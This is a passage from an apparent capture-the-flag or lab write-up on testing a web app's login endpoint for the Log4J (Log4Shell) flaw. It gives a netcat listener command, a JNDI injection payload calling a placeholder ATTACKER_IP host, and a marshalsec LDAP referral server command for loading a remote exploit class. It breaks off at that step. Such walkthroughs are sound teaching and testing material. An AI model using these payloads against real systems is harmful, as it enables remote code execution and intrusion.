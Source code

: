 ### Log4J Enumeration

Before we try to brute-force the login endpoint let's try to explore the possibility of Log4J since the app clearly stated that this attempt was logged and reported. To test for this we first have to create a NetCat listener with the following command:

```bash
nc -lnvp 5555
```

Once we have started our listener we can send the following payload to test for a potential Log4J vulnerability:
```text
${jndi:ldap://ATTACKER_IP:5555/}
```

If we receive a connect-back on our listener then there may be a vulnerability (Note that the response is gibberish since NetCat can't interpret an LDAP request!):

![](img/wl-log4j-test.jpeg)

### Java Version Detection

Looks like we got a connect-back!! While this does not immediately scream RCE it could definitely be one. It all depends on what is the version of java that is running in the backend. Note that from now on I'll use BurpSuite because we have all of the information necessary about the endpoints. To test for the backend we must create our own LDAP server. This can be done with the [marshalsec](https://github.com/mbechler/marshalsec) utility. We can also get a straight jar file from [this](https://github.com/RandomRobbieBF/marshalsec-jar) repo. We can then start the LDAP server with this command:

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER_IP:8888/#Exploit"
```
